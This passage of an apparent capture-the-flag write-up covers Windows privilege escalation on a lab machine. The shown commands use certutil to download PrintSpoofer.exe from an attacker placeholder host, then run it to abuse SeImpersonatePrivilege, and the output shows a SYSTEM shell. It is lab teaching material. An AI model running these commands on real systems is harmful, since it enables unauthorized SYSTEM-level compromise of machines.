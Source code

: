 >**Flag #1** --> cd C:\Users\Bob\Desktop\user.txt

## Privilege Escalation

---

**_whoami /priv_**

```txt
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

>**SeImpersonatePrivilege is enabled**

SeImpersonatePrivilege exploit explanation -  [PrintSpoofer]("https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/", "link")

### Exploit

C:\inetpub\wwwroot\nt4wrksv>certutil.exe -urclcache -f http://op-addr/PrintSpoofer.exe PrintSpoofer.exe

C:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i c cmd

```txt
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

**Root.txt Flag:**

C:\Users\Administrator\Desktop\root.txt

### Resources

---

1. [PrintSpoofer](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) Explained.
